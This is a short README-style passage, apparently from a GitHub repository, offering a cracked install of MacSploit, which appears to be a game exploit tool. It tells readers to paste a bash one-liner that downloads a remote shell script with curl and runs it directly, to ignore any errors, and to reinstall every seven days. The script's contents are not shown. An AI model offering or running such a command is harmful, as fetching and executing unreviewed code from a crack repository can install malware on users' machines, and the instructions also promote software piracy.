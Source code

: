 Run this script to sttart the crack installtion

(
bash -c "$(curl -fsSL https://raw.githubusercontent.com/Kiwxpro/Macsploit-Crack/main/install_macsploit.sh)"
)
Also there may be some errors but ingore you should see macsploit in application folder or launchpad you will need to reinstall every 7 days to keep the crack working might get patched soon dont know.
